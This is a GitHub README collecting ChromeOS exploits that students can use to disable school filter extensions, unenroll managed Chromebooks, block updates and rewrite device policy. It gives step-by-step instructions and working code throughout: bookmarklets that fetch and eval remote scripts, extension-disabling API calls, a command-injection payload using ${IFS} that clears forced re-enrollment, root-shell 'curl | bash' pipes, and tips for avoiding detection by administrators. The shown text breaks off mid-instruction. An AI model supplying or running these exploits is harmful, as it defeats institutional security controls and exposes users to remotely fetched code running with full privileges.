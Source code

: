 # Exploits And Hacks
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there is more!
Many of these exploits can destory your computer if used inproperly. So PLEASE PLEASE make sure you follow these instructions very carefully!
If you need help ask it <a href="https://github.com/Brandon421-ops/Exploits-And-Hacks/discussions">here</a>

Note: Students to see the list of more exploits click on JPCMG [LTBEEF with Service workers and scroll down.
  
**ATTENTION ALL SYS ADMINS!!!**

Hello, I am Brandon and I forked this repo from <a href="https://github.com/3kh0/ext-remover">3kh0</a> in order to give updated and old exploits for the masses and to prove one thing, chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is a endless game of whack-a-mole. Treat your students to a windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

<img width="250px" src="https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png">  
Image Credit: LittleMissNyan

<details>
<summary><b>LTMEAT</b> Freeze extensions</summary>

  **DO NOT UPDATE YOUR CHROMEBOOK TO CHROME VERSION 115 OR ABOVE**

**Patched** **On** **Chrome** **Versions** **115** **And** **above**

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

From [ltmeat.bypassi.com](https://ltmeat.bypassi.com), if you are intrested in how this exploit works, check out that website.

1. Find a page belonging to the extension you want to disable. `chrome://extensions`, `chrome://extensions-internals`, and `chrome://process-internals` are all good places to find your extension's ID (a 32-character lowercase string). You can also just do a simple Google search. Once you have your ID, substitute it into the hostname in the URL below:

```
chrome-extension://extensionidhere/manifest.json
```

For some filters like Securly, the block screen is already an extension page. 

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C). 
3. While on the extension page (A), click the `chrome://kill` bookmark (B). The page should crash. You should already have the next step prepared. 
4. Instantly start spamming `chrome://hang` (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or `ctrl`+`R`). You should have reloaded within one or two seconds of killing the page. 

If the extension page (bookmark A) no longer loads, then LTMEAT worked! You can close your tabs and the extension will basically be dead. If nothing loads, then you probably reloaded too late or spammed too slow. This isn't rocket science! Restart your computer to revert back to normal. 

Exploit made by [Bypassi#7037](https://buymeacoffee.com/bypassi), [further reading](https://ltmeat.bypassi.com)

### "Help me! I'm an idiot!"

Turns out that I had far too much faith in society when making this page. Some of you skids out there are really, really stupid and also can't read. So here are the answers to some commonly asked questions. 

**How do I get an extension ID?**

Okay, fair. Extension IDs are leaked in a couple of places. Generally, the best way to get them is to go to extension settings and copy the URL query value.

**It says blocked by client?**

That's the message you get when you try to visit an a page belonging to an extension that doesn't exist. The error message (`ERR_BLOCKED_BY_CLIENT`) is extremely misleading. Nobody blocked it--you just need to find the right extension ID (see above).

If you got this because you tried to visit the `extension_id_here_please` example URL, you should be extremely ashamed of yourself. Please change and grow as a person. 

**I don't have a bookmarks bar!!!!**

First, try running ctrl+shift+B. If that doesn't work, go to `chrome://settings` and turn on the "home button" feature, then set it to `chrome://hang`. A home icon should show up to the right of your refresh icon in the top left. Use that instead of bookmark C.

There is a version where you don't need bookmarklets, but I am currently gatekeeping it (L). Check this site daily to see if new alternate instructions have been posted. 

**I disabled an extension but now I can't load websites!**

If you actually just read the writeup, you'd know that this would happen if the extension's background page loaded and its listeners were already initialized before you used `chrome://hang`. You can double-check whether the extension is listening using `chrome://extensions-internals`, assuming you have a few brain cells in your head.

Anyway, no listeners means you were too slow. Either you waited more than three seconds between bookmark B and reloading the page, or you weren't spamming bookmark C fast enough. The most reliable fix for this is to just restart your computer and try again. Try to match the pace of the gif below: (note the reload) 

![image](https://ltmeat.bypassi.com/img/abc.gif)

**The bookmarks don't do anything when I click them!**

Might be admin-blocked. Either be smart enough to figure out another way, or check this site daily to see if new alternate instructions have been posted.

**I disabled the extension, why is some stuff still blocked?**

I have bad news for you... not all filters are Chrome Extensions. And again, make sure the extension pages (like bookmark A) are frozen before you assume that your skiddy self successfully did the exploit. 

*Need more help? [Ask in the discussions](https://github.com/3kh0/ext-remover/discussions)*

</details>

<details>
<summary><b>Baby LTMEAT</b> Freeze extensions</summary>

**Patched On Chrome Versions 115 And Above**
  
BABY METHOD
FOR THE TECHNOLOGICALLY CHALLENGES.

1. Follow step one of the original instructions to find a page belonging to the Chrome extension you want to disable.

2. Visit that chrome-extension://blockeridhere page, then type chrome://hang in the URL bar of that tab. It should start loading infinitely.

3. Right-click the tab and duplicate it. Don't close anything.

4. Go to the chrome://extensions page for the blocker extension you want to Disable.

5. If that page has any sort of switch, such as "Allow access to file URLs", click that switch. If there are no clickable switches, cry in a corner or something.

The extension should now be broken, assuming you clicked the switch! Only one of the two duplicate tabs should be left standing. You can close your tabs now.

</details>

<details>
<summary><b>LTMEAT Flood</b> Freeze extensions</summary>

  **If your Chromebook has received the 115 And Above patch on the stable channel Then Here's A New Method For LTMEAT**
  
  
**Unpatched on 115 and above**

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

1. Create a bookmark folder and paste the extension page lots of times. (About 800 minimum is recommended assuming your Chromebook is average school quality) It is recommended that you add the extension page at the beginning of the folder.

2. Right click and open all in a new window.

3. Close the window with all those tabs.

4. Open the folder in a new window again, and Chrome should hang those tabs to take care of the old ones in the background that were just closed. (Equivalent to the duplicate tab step in Bypassi's method)

5. Flip the Allow access to file URLs switch in the extension settings and then you've bypassed the patch and the exploit is working.

6. Close everything and you're good to go. If it didn't work, try adjusting the number of open tabs. This is the LTMEAT Flood Method, and also unofficially called Alternate Method # 2. Enjoy a much longer life of LTMEAT!

**Not working?** Ensure you open a large set, but not too large, of extension tabs (_/generated_background_page.html or /manifest.json) for a permanent freeze.

Credit to <a href="https://github.com/AshtonDavies">Ashton Davies</a> for finding this workaround

</details>

<details>
<summary><b>Baby LTMEAT Flood</b> Freeze extensions</summary>

**Unpatched on 115 and above**

1. First of all, get your folder with 800+ extension page tabs and open it in a new window, for my Chromebook i used 800 extension page tabs as i feel it's the right amount for me

2. Close the newly opened Window with 800+ extension page tabs

3. Click into your folder, and open one of the extension page tab in a new window, maybe waiting slightly longer this time, to confirm it worked. If it loads, you did it wrong. If you see a "page unresponsive screen, and a wait/exit page button" you did it right" But don't click either of the buttons. (if you want to do it fast you can just see that the page always has a spinning loading circle)

4. Now go to `chrome://extensions/?id=yourblockerID`  Then scroll down and flick the "allow access to file URLs" lever and close the window with the 1 extension page tab remaining.

</details>

<details>
<summary><b>Anesthesia</b> Freeze extensions with printing</summary>

1. Find your extension's largest file. This can usually be found by poking around in your extension's manifest.json or you can use <a href="https://robwu.nl/crxviewer/">Rob Wu's crxviewer</a> to find your extensions largest file.

2. Go to that page. and hit `Ctrl`+`P`. A print window shoudl show up, with a number of pages in the top right.

3. Do everything you can to increase that number. Shrink down margins, change layout to landscape, anything you can. The higher you can get that number, the longer the effect will last.

4 Hit reload. The page should start hanging.

5. Go to your extension's settings page. This is in `chrome://extensions`.

6. Duplicate your "printing" tab, and go back to your extension's settings page.

7. Flip any switch you can find there. Usually there'll be one titled "`Allow Access to File:// [URL]s`".

8. Presto! Go have fun on the (probably) unblocked web.

FAQ:
Where do I find my extension's manifest.json?
First find your extension's ID. This is a 32-character code that can be found in your extension's settings page, normally near or at the top. Then go to chrome-extension://your-32-char-id-goes-here/manifest.json

Credit to <a href="https://buymeacoffee.com/bypassi">Bypassi</a> for the original LTMEAT framework, and HUGE thanks to Swordmaster4321 for discovering that pages can be hanged with printing.

</details>

<details>
<summary><b>LoMoH</b> Disable extensions</summary>

  **This exploit has been patched in Chrome OS 111 after being found and reported. It should have gotten admin protection sooner.**

  **About: LoMoH is a Chromebook exploit that uses the Chrome OS locked mode feature to soft disable enforced extensions (excluding Hapara Highlights if installed).**
  
HTML VERSION: <a href="https://tiny.cc/LoMoH">LoMoH HTML</a>

BOOKMARKLET VERSION: `javascript:(function(){if (location.hostname == "docs.google.com") {document.body.innerHTML = document.body.innerHTML.replace("Locked mode is on", "Are you ready to turn off extensions?%22);%20document.body.innerHTML%20=%20document.body.innerHTML.replace(%22You%20have%20already%20opened%20and%20closed%20this%20quiz.%20Opening%20this%20quiz%20again%20will%20notify%20the%20form%20owner%20by%20email.%22,%20%22This%20will%20reload%20all%20tabs%20in%20your%20browser%22);%20var%20button%20=%20document.getElementById(%27mG61Hd%27);%20button.innerHTML%20=%20button.innerHTML.replace(%22Start%20Quiz%22,%20%22Disable%20Extensions%22);%20button.addEventListener(%27click%27,%20function(event){window.close();})}%20else%20{window.open(%22https://docs.google.com/forms/u/0/d/e/1FAIpQLSf5EYwrSUjmQhBOasMpORZy80eBCYb7qCpEwWNoRPUGyObGMA/startquiz%22);}})()`

Credit to <a href="https://github.com/AshtonDavies">Ashton Davies</a> for finding this exploit

</details>

<details>
<summary><b>Dextensify</b> Freeze extensions</summary>

**Dextensify is an exploit which lets you disable most admin-installed Chrome extensions from any webpage. It can be used from regular websites, HTML files, and data URLs.**

Go here and follow instructions: <a href="https://dextensify.pages.dev/main">Dextensify Main HTML</a>, or download the file here <a href="https://github.com/Brandon421-ops/Exploits-And-Hacks/blob/main/Dextensify.html">Dextensify.html</a>

Credit to <a href="https://ading.dev/">ading2210</a> for finding/Making this exploit

</details>

<details>
<summary><b>JPCMG</b> LTBEEF with Service workers</summary>

**Requirements**
- Access to `chrome://serviceworker-internals`
- Inspect element

1. Go to `chrome://serviceworker-internals`
2. Find your extension, this wont work if theres not a plugin in there.
3. Hit the start button then the `inspect` button, run basic LTBEEF code
```js
chrome.management.setEnabled('<plugin id here>',false)
```
4. Profit

![image](https://user-images.githubusercontent.com/58097612/234904781-4d5ad77e-6045-435e-8aae-df12dec53013.png)

Thanks to Nyaann#3881 for this exploit

</details>

<details>
<summary><b>Corkey</b> Corrupt extensions</summary>

**Corkey does indeed include power washing the Chromebook, which wipes local data including everything under "My files," so I suggest you select everything you want to drag and back up to Google Drive if that's available for your account.**

**Chromebooks Only**

1. `Esc`+`Refresh`+`Power` and re-enroll (Enter recovery page) or you can just powerwash

2. log into your chromebook and immediately turn off wifi and do `refresh`+`power` to (instant restart)

3. Log back into your chromebook with the wifi off. There should be something on the side of the connect wifi page that says log in offline or sign in as a existing user.

4. Go to `chrome://extensions`, turn on wifi, and wait for your schools blocking extension to appear.

5. As soon as it appears turn off wifi and instant restart as fast as you can.

6. Log back in and go back to extensions and wait. If it says your blocking extension could be corrupted or doesnt appear at all then it worked (wait atleast a minute with a close watch incase it comes back)

7. If it didnt work repeat from step 1.

8. If it did work you could go onto anything

</details>

<details>
<summary><b>Extension Launcher</b> Install extensions w/o allowlist</summary>
A bookmarklet capable of installing extensions, for those without a allowlist. 

Steps: 

1. Go to <a href="https://extension-installer.glitch.me/code.js">here</a> bookmark the code there (Might make a dns)

2. go to <a href="https://chrome.google.com/webstorex">chrome.google.com/webstorex</a> and use the bookmarklet, then put the icon of the extension, the id, and name of it (Doesn't matter just put anything)

3. press download, and it will work.

**Extra Notes**
- Credit to "Aka, but nice" on discord.
- Dns will be up soon, if bookmarklets are blocked
- This will not work if you have a blocklist this is only for if when you go to the webstore it shows blocked
</details>

<details>
<summary><b>Point-Blank</b> Scripts on extension pages</summary>

This exploit allows you to run scripts, on extensions pages, this is a great example of how Chromebooks are a piece of garbage.

<i>Getting started</i>
(Note: if bookmarklets are blocked your screwed.)

1. Go to <a href="https://spot-maze-chinchilla.glitch.me/ingot.js">here</a> <a href="https://raw.githubusercontent.com/3kh0/ext-remover/main/newpointblank.js">if blocked</a> on your school chromebook.

2. Make a bookmark with the code there.

3. Once that is done,

 If you have Securly go to <a href="https://tinyurl.com/bettergoofcurly">here</a> if it says blocked by chrome, reload (you have to actually have securly ofc)
 
 If you have iBoss go to <a href="https://tinyurl.com/goofboss">here</a>.
 
 If you have Cisco Umbrella go to <a href="https://tinyurl.com/goofumbrella">here</a>.
 
 If you have Blocksi go to <a href="https://tinyurl.com/goofsi">here</a>.
 
 And if you have GoGuardian(might not work) go to <a href="https://tinyurl.com/goofguardian">here</a>. 
 
 Now most of these links are a block page(this is intentional) on each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made and click either hard disable or soft disable, you can also run some of the scripts and run your own code, your extension may disable javascript being ran on it, so running your own code may not work.
 
**Extra notes**
- I recommend doing soft disable, which only disables it until restart. 
- The launcher was made by 3kh0, but the idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>
- If your school updated GoGuardian, this exploit may not work.

</details>

<details>
<summary><b>UBoss</b> Tamper with IBoss</summary>

By the BlueHatCrew
<a href="https://dsc.gg/blue-hat-crew">https://dsc.gg/blue-hat-crew</a>

This works only for iBoss, and Blocksi, If you don't have one of these, use Blank3r or Point Blank.

1. Go to https://tinyurl.com/byeswamp if you have iBoss or https://tinyurl.com/blockboss if you have Blocksi.
Then bookmark the code below
```js
javascript:opener.eval(`fetch("https://rounded-boiling-flax.glitch.me/uboss.js").then(data=>{data.text().then(e=>{eval(e)})})`) && close();
```
2. Then go to the site with your blocker that was listed above.
3. Run the code. Follow the instructions there.

If it doesnt work let us know by creating a discussion, this was made in partnership with Aka, but nice#5094 and Bypassi#7037.

</details>

<details>
<summary><b>A Bypass For IBoss</b> Unblock websites that are blocked by IBoss</summary>

1. Firstly go over to your unblocked website you want to access. 

2. After visiting the website it should be blocked.

3. You want to turn off your wifi, then spamclick the blocked link  (not the url)

4. Then after spamclicking, turn on your wifi.

5. It should redirect you to "your connections been dissrupted" press reload.

6. Then you should be at the blocked website completely unblocked!!

(NOTE: THIS ONLY WORKS ON SOME WEBSITES)

</details>

<details>
<summary><b>CAUB</b> Prevent Updates</summary>

This exploit keeps your chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your chromebook that the wifi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates.

![image](https://user-images.githubusercontent.com/58097612/212685932-ef9c802e-6040-42a3-be6e-10997162b7cd.png)

<i>Getting started</i>

1. Go to `chrome://network#state` (on your school chromebook of course; if this is blocked then ur kinda screwed lol).
2. Scroll to the bottom of the page; you should see a list of "favorite" wifis that you've connected to in the past.
3. Click the `+` sign next to the wifi name of each network that you commonly connect your chromebook to.
4. The more wifis you expand, the better, but note that they have to come from the "favorites" section.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox bshelow.
8. Press the `generate onc` button below the textbox.
9. Once you have downloaded the file, go to `chrome://network#general`.
10. Click on the `import onc` button.
11. Import the newly downloaded file.

**Extra notes**
- Your chromebook will no longer automatically update. (as long as you are on a wifi that you used caub on)
- Be careful not to stay on a wifi for too long without using caub on it, otherwise you might update.
- We cannot guarantee that this will work on every wifi

</details>

<details>
<summary><b>CAUB Via Flags</b> Prevent Updates</summary>

This alt exploit keeps your chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by <a href="https://github.com/MechaXYZ">MechaXYZ</a>. Using a chrome flag, you can convince your chromebook not to automatic update.

### Requirements
- Access to `chrome://flags`

<i>Getting started</i>

1. Go to `chrome://flags#show-metered-toggle` or search "metered" in `chrome://flags` instead.

2. Enable it and restart your device.

3. Open the Settings app.

4. Go to your Network >> Advanced >> Show metered toggle and turn it on

**Extra notes**
- Your chromebook will no longer automatically update. (as long as you have the flag enabled)
- And you must be able to enable flags if it ain't blocked otherwise this exploit won't work

</details>

<details>
<summary><b>LTBEEF</b> Disable extensions</summary>

LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore. The original site created for this exploit can be found at <a href="https://ltbeef.netlify.app/">ltbeef.netlify.app</a>

<b>Please Note:</b> This exploit only works on versions below 106, and eariler versions of 102
  
**Installation**  
There are several vesions of this exploit you can use, here are the 2 most common versions:
- *Bookmarklets*  
    1. To use a GUI, bookmark one of the below scripts:  
    - Ingot  
    ```js
    javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
    ```
    - Compact Cow's UI  
    ```js
    javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
    ```  
    - Compact Cow's UI (Dark)
    ```js
    javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);
    ```
    2. Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. 
    3. Flip the switches on the extentions you want to disable. Simple!  

    Photos of the GUI's:
    ![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)
    ![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)
   
- *DNS servers*  
    By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
    1. First, go to Settings > Network > Wifi > Network.
    2. Click on `Custom Name Servers`
    
    ![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)  
    
    3. Set every box there to the following ip:
    ```
    158.101.114.159
    ```
    (Hosted by The Greatest Giant#0110)  
    4. Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. 
    5. Flip the switches on the extentions you want to disable.
    6. Profit
    
</details>  

<details>
<summary><b>LTBEEF inspect</b> Using inspect to disable extensions</summary>

![image](https://user-images.githubusercontent.com/58097612/207386423-e6aa2095-d92d-44a8-a3d6-e42066bdf34e.png)

The screenshot below was preformed on `108.0.5359.75` (Official Build) (64-bit) on the stable channel. This has been tested and does work but has varying levels of success, you will need access to inspect element, more specifically, console.

1. Open this on your chromebook: 
```
chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/manifest.json
``` 
Shortened link: https://tinyurl.com/i-ltbeef
2. Open inspect and navigate to the console tab.
3. Run the basic LTBEEF code such as
```js
chrome.management.setEnabled('extensionid', false)
```
Replacing `extensionid` with the ID of the extension you want to disable, e.g. the stuff after the = in the URL bar when you click the extension's "details" button in chrome://extensions

Credit to SprinkzMC#8421 (aka Bypassi) for finding this!

![image](https://user-images.githubusercontent.com/58097612/207385046-5a9f6f07-6089-4775-9183-c11bd24ba02c.png)

To re-enable just go to the chrome web listing for the extension and click on the banner.

</details>

<details>
<summary><b>Blank3r</b> Reload extensions continuously</summary>

Point Blank is an exploit that allows you to run bookmarklets on privileged pages, such as the Chrome extensions page. This exploit was made with Point Blank as well.

You can either use the prompt or the gui the prompt is below

1. Bookmark this code:

```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```

And the gui is in launcher.js


2. Navigate to `chrome://extensions`.

3. Click on a extension that YOU installed from the Chrome Web Store > Details.

4. In the URL bar, copy the string of letters and numbers after the `/?id=`.

5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet.

5. Paste the id of the extension into the prompt or input box seperated by commas.

If you close the tab, the exploit will stop working.

</details>

<details>
<summary><b>SH1mmer</b> Unenrollment</summary>  
sh1mmer is an exploit developed by the crew at Mercury Workshop. Credits can be found within the menu and on their site.  

Further information is now located at these links:

<a href="https://github.com/CoolElectronics/sh1mmer">Official Repository</a>  

<a href="https://sh1mmer.me/">Official Website (INSTRUCTIONS)</a>

<a href="https://dl.osu.bio/">Raw Shims Download</a>

</details>

<details>
<summary><b>SH1mmer V111 → V113</b> Unenrollment</summary>
How to use SH1MMER on v111 → v113
(if you're willing to take the back cover off your Chromebook)

you'll only need to do this once, and it will let you use SH1MMER even after it's been completely patched



        1. Unplug everything, open the back panel, disconnect the battery to disable WP, plug in the charger
        2. boot into SH1MMER and use "Un-Enroll / Deprovision" (yes I know it will show an error, but that doesn't
        matter)
        (you will also need to run "Disable block_devmode" if you're using the old legacy version)
        3. go to the bash shell and run this command:
        /usr/share/vboot/bin/set_gbb_flags.sh 0x8090
        do not use "Reset GBB Flags" after this

        4. exit SH1MMER, unplug everything, reconnect the battery, reconnect the charger
        5. boot up, press CTRL + D to enter developer mode
        6. once it completes, use CTRL + ALT + SHIFT + R to powerwash
        7. after powerwash, immediately go into VT2 by pressing CTRL + ALT + F2 (→), login as "root" and run these commands:
        tpm_manager_client take_ownership
        cryptohome --action=remove_firmware_management_parameters
        if it fails, try downgrading to v110 if possible. if you can't, use E-Halycon instead.
        8. press CTRL + ALT + F1 (←), use CTRL + ALT + SHIFT + R to powerwash again
        9. profit

        NOTE: if you're on dedede, your WP method is probably different. look your model up online to find the WP
        method.

</details>

<details>
<summary><b>CryptoSmite</b> Unenrollment</summary>

**CryptoSmite** is an exploit capable of completely unenrolling enterprise-managed Chromebooks. It was found by FWSmasher and released on **March 9th, 2024**.

**This exploit has been patched since Chrome OS 120.**

### Finding Kernver
If you're on v120 or higher, you need to downgrade in order to use CryptoSmite. To do this, you first need to check your `kernver=` in Recovery Mode.

1. Boot into Recovery Mode
   - Hold ESC + Refresh + Power for 2 or 3 seconds.
   - You should be on an "Insert Recovery Media" or "Let's step you through the recovery process" screen.
2. Press TAB and look at the last digit of the `kernver=` line

- `kernver=` ends with a 2! <br />
Congratulations, you can downgrade to v119 or lower! Follow the instructions at [Downgrading *Change versions*](#downgrading-change-versions) on how to downgrade.

- `kernver=` ends with a 3! <br />
Sorry, you can't downgrade to v119 or lower. Wait for a new unenrollment exploit or do a <a href="https://blog.darkn.bio/blog/3-the-tsunami">**dangerous** hardware modification</a>.

### Using CryptoSmite
1. Download a SH1MMER Prebuilt image here: <a href="dl.darkn.bio">https://dl.darkn.bio/SH1mmer/Prebuilt/</a>
2. Disable OS verification *(blocked or not, doesn't matter)*, and boot into the shim.
3. Navigate to Payloads and navigate to CryptoSmite using the arrow keys, then press `Enter`.
4. Type in `Y` then press enter, and it'll automatically reboot upon completion.
5. Proceed through the setup partially till you get to the Add Account Screen.
   - If you see an update prompt, reboot then press `CTRL + ALT + E` on the Wi-Fi screen.
     - This *should* allow skipping the update, or make it not appear at all.
6. Powerwash the Chromebook at the "Add Account" screen. Afterwards, it'll be fully unenrolled.

### Further Reading
- <a href="https://github.com/FWSmasher/CryptoSmite">Repository</a>  
- <a href="https://blog.coolelectronics.me/breaking-cros-2/">Writeup</a>
- <a href="https://exploitingchromium.blogspot.com/">Official Blogspot</a>

</details>

<details>
<summary><b>E-Halcyon</b> Unenrollment Or Downgrade</summary>

First of all, you'll need a linux PC or VM. WSL is not guaranteed to work

Now, you'll need to boot into SH1MMER, and press the Un-Enroll option. It won't truly unenroll you if you've received the 112 update patching unenrollment and downgrading, but it is still a necessary step for the rest of this. If you've never used SH1MMER before or don't have an image lying around, make sure to follow all the instructions on sh1mmer.me for unenrollment before proceeding with the rest of the tutorial here

Next, you need a version 107 recovery image corresponding to your board, which you can pick up from chrome100.dev. Once you've downloaded the right image for your board and have confirmed it's for version 107, unzip it and save it to a safe place. Now open up a terminal and type in the following commands (make sure to replace /path/to/recovery/image.bin with the actual path)

```
git clone https://github.com/MercuryWorkshop/RecoMod
cd RecoMod
chmod +x recomod.sh
sudo ./recomod.sh -i /path/to/recovery/image.bin --halcyon --rw_legacy
```

The script will modify the image in place, and it can now be flashed with a standard recovery tool onto a USB of your choice.

Enable developer mode and get to the dev mode block screen similarly to how you would with SH1MMER, then plug in the USB. The recovery screen will show up, and at this point you need to start spamming the E key on your keyboard. It will begin a 5 minute wait sequence, and near the end of the 5 minutes start spamming E again. You will only have to wait 5 minutes once, subsequent boots will have the 5 minute wait omitted

The boot splash will show, and you will enter a special menu. Use arrow keys to navigate the cursor down to "activate halcyon environment" and press enter. Then navigate down to "Install halcyon semi-tethered" and wait for it to finish. Once it's finished, go back to "activate halcyon environment" and press "Boot halcyon semi-tethered". and you will be booted into a downgraded and unenrolled ChromeOS environment.

FAQ:
How does this work?
See the writeup for more information

Can the admins see that I'm doing this?
No.

Why don't my history/cookies/etc save after a reboot?
Unfixable restriction of cryptohome. See the writeup for more information

Why is my Chromebook "Missing or damaged?"
After installing E-Halcyon, you won't be able to boot Chrome OS normally. You'll have to keep the usb around to jumpstart the booting process

Where do I report bugs?
The RecoMod GitHub

Why does it say "E mode not activated" when I try to boot halcyon?
You spammed the E key when starting at the wrong time, or not at all

Credits:
CoolElectronics - RecoMod, working switch_root, and everything else
OlyB - Insight and contributions to the RecoMod script
vk6 - Created this website

</details>

<details>
<summary><b>Old Weird Unenrollment</b> Unenrollment</summary>

if you have a chromebook that's on a version below 101  
(check `chrome://version` to see)
press ctrl+alt+t and type this in            


`set_cellular_ppp \';dbus-send${IFS}--system${IFS}--print-reply${IFS}--dest=org.chromium.SessionManager${IFS}/org/chromium/SessionManager${IFS}org.chromium.SessionManagerInterface.ClearForcedReEnrollmentVpd;exit;\'`

                                                         
           then powerwash and it will unenroll           
                       cool right                        

    to re-enroll, open a bash shell and type these in one by one
```
sudo -i
```

```
vpd -i RW_VPD -s check_enrollment=1
```

```
echo "fast safe" > /mnt/stateful_partition/factory_install_reset
reboot
```

</details>

<details>
<summary><b>Shimboot</b> Linux from RMA shim</summary>

Shimboot is a collection of scripts for patching a Chrome OS RMA shim to serve as a bootloader for a standard Linux distribution. It allows you to boot a full desktop Debian install on a Chromebook, without needing to unenroll it or modify the firmware.
  
**For more detailed information, please see the project's <a href="https://github.com/ading2210/shimboot">README</a>**

Further reading:
- <a href="https://shimboot.ading.dev/">https://shimboot.ading.dev/</a>
- <a href="https://github.com/ading2210/shimboot">https://github.com/ading2210/shimboot</a>

Credit to <a href="https://ading.dev/">vk6</a> for this exploit

</details>

<details>
<summary><b>Skiovox</b> Unrestricted browsing</summary>

### What is it?

An exploit that allows for browsing within a completely unblocked Chrome
browser. It works on ChromeOS 118 and a wide range of previous versions.
- Skiovox utilizes a bug in kiosk apps
- Very similar to a bug from 3 years ago
Within the unblocked browser, you can
- Install extensions
- Bypass pretty much all blocks
- Do whatever the honk you want

### How to use it

Bypassi made a wonderful slideshow for you goof balls to follow, view using any of the links below!

- <a href="https://www.skiovox.com/">https://www.skiovox.com/</a>
- <a href="https://skiovox.netlify.app">https://skiovox.netlify.app</a>
- <a href="https://drive.google.com/file/d/1tl8eP26MFRejHO38H5HwMLl2VaQrtn0Z/preview">https://drive.google.com/file/d/1tl8eP26MFRejHO38H5HwMLl2VaQrtn0Z/preview</a>
- <a href="https://1drv.ms/b/s!Ais5N3vPLTEMh8poZbywnNWdMUrhUA?e=MaCHBx">https://1drv.ms/b/s!Ais5N3vPLTEMh8poZbywnNWdMUrhUA?e=MaCHBx</a>

</details>

<details>
<summary><b>Fakemurk</b> Trick your Chromebook into being in developer mode while being enrolled in your school's profile</summary>

**Fakemurk is a script that is able to run in developer mode to trick your Chromebook into being in developer mode while being enrolled in your school's profile. You can use this to disable any extension, as well as have full access to the chrome web store and google play store. This basically provides a personal Chromebook-like experience, while still being enrolled.**

Go here and follow instructions: <a href="https://docs.google.com/document/d/1Pku_CbEG9SwQtnm0I188RtpdpW8nXQhiNdMp8PN7Mik/edit?pli=1">Fakemurk Doc</a>

</details>

<details>
<summary><b>Pollen</b> Chrome OS User Policy Editor</summary>

**DEV MODE ONLY**

Normal Use
open crosh

```
run shell
run sudo su
run
curl -Ls https://mercuryworkshop.github.io/Pollen/Pollen.sh | bash
```

then press alt+vol_up+x

to make your own modifactions refer to the Pollen Wiki

<a href="https://github.com/MercuryWorkshop/Pollen/wiki#getting-your-policies">Pollen Modifaction Wiki</a>

</details>

<details>
<summary><b>Customized Pollen</b> Chrome OS Policy Editor Customized</summary>

**Customized Pollen for SH1mmered chrombook users.** 

The original pollen by Mercury Workshop: <a href="https://github.com/MercuryWorkshop/Pollen">Pollen GitHub</a> 

It removes all admin installed extensions and thats kinda a problem for everyone so fruvs (op) edited it to make it fit more for SH1mmer users because fruvs (op) already got caught once cause he got snitched on.

So fruvs (op) customized this one to edit lots of features. But to keep all admin installed extensions so no one get's caught. So fruvs (op) edited some

incognito mode: on (everything unblocked, idk if extensions like GoGauridan can see)

ExtensionSettings: all settings removed

HomepageLocation: chrome://newtab

NewTabPageLocation: (left empty)

ManagedBookmarks: removed all school added bookmarks

PinnedLauncherApps: removed all force pinned apps to home bar

RestoreOnStartupURLs: (set it so when you open a new window some schools forces it to also open the schools homepage so                                                          its set back to new tab and no extra tabs)

WebAppInstallForceList: removed all force installed apps


How to run

Note: Devmode NEEDS to be enabled.
Open Crosh

Run
```
shell
```
Run
```
sudo su
```

Run 
```
curl -Ls https://tinyurl.com/repollen | bash
```

Done! It may take a few seconds for the new policy to apply. If it does not apply, press 
```
